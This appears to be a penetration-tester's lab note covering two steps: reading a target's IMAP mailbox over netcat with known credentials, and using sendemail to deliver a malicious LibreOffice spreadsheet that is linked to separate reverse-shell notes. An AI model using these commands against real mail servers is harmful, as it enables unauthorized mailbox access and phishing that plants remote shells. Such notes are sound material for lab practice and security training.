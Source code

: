 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Reading emails
```bash - kali
nc $TARGET 143
```

```bash - kali
tag login $USER@localhost $PASSWORD
```

```bash - kali
tag LIST "" "*"
```

```bash - kali
tag SELECT INBOX
```

Notice there are 5 total messages.

```bash - kali
tag STATUS INBOX (MESSAGES)
```

```bash - kali
tag fetch 1 (BODY[1])
```

We can read the rest of the messages with the following command:

```bash - kali
tag fetch 2:5 BODY[HEADER] BODY[1]
```

#### Send malicious email

Below, we are sending a malicious email with attachments from:
[[0._Reverse shells (WEB)#odt LibreOffice]]
OR
[[0._Reverse shells (WEB)#hta - ods LibreOffice]]

![[rlwrap]]

```bash - kali
sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s $TARGET:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a calc.ods
```




